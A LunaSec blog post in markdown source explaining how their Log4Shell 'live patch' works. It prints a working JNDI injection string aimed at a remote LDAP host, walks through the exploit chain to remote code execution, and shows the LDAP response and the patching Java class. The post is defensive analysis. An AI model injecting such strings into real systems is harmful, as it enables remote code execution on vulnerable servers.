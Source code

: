 ```yaml
---
title: "Understanding Log4Shell via Exploitation and Live Patching (CVE-2021-44228 + CVE-2021-45046)"
description: Let's dig into how it's possible to send a string to your server and have it patch a vulnerability.
slug: log4shell-live-patch-technical
date: 2021-12-16
image: https://www.lunasec.io/docs/img/log4shell-logo.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
authors: [free, chris]

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

![Log4Shell Logo](https://www.lunasec.io/docs/img/log4shell-logo.png)

## Technical Analysis: Understanding the Live Patch

The other day we published a Log4Shell payload that, when used to exploit a server, would patch the server against
future exploitation from Log4Shell. You can read through our post explaining _why_ we built it
[here](https://www.lunasec.io/docs/blog/log4shell-live-patch/).

It looks like this:
```
${jndi:ldap://patch.log4shell.com:1389/a}
```

In this post, we're going to dissect what's going on with this live patch to explain how it works. If you're curious to
dig into this more, you can view the code on
[GitHub](https://github.com/lunasec-io/lunasec/tree/master/tools/log4shell) too.

<!--truncate-->

## The Payload Schema

A simple Log4Shell attack follows a specific structure. We're going to break down our patch payload (above) into it's
composite parts:


- `${`: The open tag for the log4j "Message Lookup",
- `jndi:`: Specifying to log4j to use the "JNDI Manager" to resolve the message,
- `ldap://`: Tells the JNDI request to be resolved using the LDAP protocol,
- `patch.log4shell.com`: The host to resolve via DNS to send the payload towards,
- `:1389`: The port to send the request to,
- `/a`: The path to send to the server with the request,
- `}`: The closing tag for the original log4j "Message Lookup".

_Note: There are more advanced payloads, but they all distill down to something similar to this._

## High-Level Exploit Steps

To perform the exploit, the following steps are completed in this sequence:

1. A log is passed to log4j via `log.info("${jndi:ldap://patch.log4shell.com:1389/a}")`,
2. A "Message Lookup" is parsed by log4j to be interpreted,
3. The JNDI Manager is invoked and passed the LDAP URI,
4. The LDAP Server is queried via the URI,
5. The response is downloaded and passed to the JNDI Manager,
6. The JNDI Manager loads the response data as Java bytecode into the Java process,
7. When loading the Java code, the `getObjectInstance` method is called since the loaded class is an `ObjectFactory`
   (alternatively, the payload code can be wrapped in a static context with `static {}` which will be triggered upon loading the class),
8. At this point, an attacker can perform whatever logic they'd like because they have full code execution.

Here is a diagram with roughly the same information, but explained visually (with mitigation info).

<a href="https://www.lunasec.io/docs/img/log4j-attack-and-mitigations.png" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/log4j-attack-and-mitigations.png" alt="log4shell 0day diagram" />
</a>

## The LDAP Lookup

Once Log4j has parsed the message, the LDAP request is the first leg of the exploit that an attacker must implement in
order to attain RCE.

We're going to use the CLI tool `ldapsearch` to allow us to emulate the request being made from within Log4j to the
LDAP server. With this tool, we can query the live patch server for its entries:

```shell
~ ldapsearch -x -H ldap://patch.log4shell.com:1389
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

#
dn:: Y249bG9nNHNoZWxsLWhvdHBhdGNoLCA=
cn: log4shell-hotpatch
javaClassName: attempting to patch Log4Shell vulnerability with payload hosted
  on: http://patch.log4shell.com:80/Log4ShellHotpatch.class
javaCodeBase: http://patch.log4shell.com:80/
objectclass: javaNamingReference
javaFactory: Log4ShellHotpatch

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

The most important parts of this response data are the `javaCodeBase` and the `javaFactory` fields. These tell the JNDI
function where to locate the code (`http://patch.log4shell.com:80/`) and what remote class to resolve
(`Log4ShellHotpatch`). In Log4j versions `>= 2.15.0`, `javaCodeBase` will only be resolved if it is [`localhost` or a
whitelisted host](https://github.com/apache/logging-log4j2/pull/608) meaning this payload will not execute.

### Other Response Values

For the most part, the other response values exist only to pass the LDAP schema validation step and aren't crucial for
the exploit to succeed.

For example, the `javaClassName` contains a value which will be logged out when running the live patch on a system. This
log message will indicate that the second stage Java class file is being downloaded:
`http://patch.log4shell.com:80/Log4ShellHotpatch.class`.

We only have added this for debugging to understand if this payload was ever actually executed, but it could be
substituted with any string value.

## The JNDI Request

With the information now available to tell JNDI where to load the exploit code from, the next request in the exploit
chain is fired off. The response from this request is contains Java bytecode which enables the actual RCE
functionality of this vulnerability.

Java bytecode is easily reversible, and we are not making any attempt to [obfuscate the payload](https://owasp.org/www-community/controls/Bytecode_obfuscation).
Using a tool such as [jdec.app](https://jdec.app/), you can simply download the payload and then reverse engineer it to understand
exactly what code will be run when the exploit is triggered.

![Log4Shell live patch payload decompiled](https://www.lunasec.io/docs/img/log4shell-live-patch-decompilation.png)

You can alternatively just browse the payload's source on (
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/tools/log4shell/payloads/hotpatch-payload/src/main/java/Log4ShellHotpatch.java)
).

```ts
/* ... imports redacted for brevity ... */

public class Log4ShellHotpatch implements ObjectFactory {
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        log("Attempting to apply Log4Shell hotpatch to service...");
        try {
            // reconfiguring log4j
            boolean success = removeJndiFromLog4jContextLookup();
            if (success) {
                return "Successfully hotpatched Log4Shell vulnerability.";
            }
        } catch (Exception e) {
            error(e.toString());
            e.printStackTrace();
        }
        return "Unable to hotpatch Log4Shell vulnerability.";
    }

    static boolean removeJndiFromLog4jContextLookup() {
      /* ... trimmed code, see GitHub for full example ... */
    }

    /* ... other methods trimmed too ... */
}
```

## The Java Exploit Code

Upon loading the second stage Java class file into the program, the class `Log4ShellHotpatch` will start performing the
in memory patch when the `getObjectInstance()` function is invoked during object creation by JNDI.

The patch consists of the following steps:

1. Accesses the current thread's `ClassLoader` and locates the classes for:
  - `org.apache.logging.log4j.core.config.Configurator` and,
  - `org.apache.logging.log4j.core.impl.Log4jContextFactory`
3. Calls `ContextSelector ctxSelector = Log4jContextFactory.getSelector(Configurator.getFactory());`
4. Grabs all `LoggerContext` objects with `ctxSelector.getLoggerContexts()`
5. Goes through each `LoggerContext` and removes the `jndi` entry in each object's lookup map

The last step of the patch is what prevents further resolution of `jndi` values during log4j logging calls.

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

And if this post helped you, please share it with others to help them too.


<ContactForm/>

## More Information

We have published a series of posts about Log4Shell on our blog that you might be interested in:
- **[Part 1: Log4Shell Live Patch (Background Context)](https://www.lunasec.io/docs/blog/log4shell-live-patch/)**,
- **[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)**,
- **[Original Log4Shell Announcement](https://www.lunasec.io/docs/blog/log4j-zero-day/)**,
- **[Explanation of the 2nd Log4j CVE](https://www.lunasec.io/docs/blog/log4j-zero-day-update-on-cve-2021-45046/)**

### Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-15-log4shell-live-patch.mdx).
:::

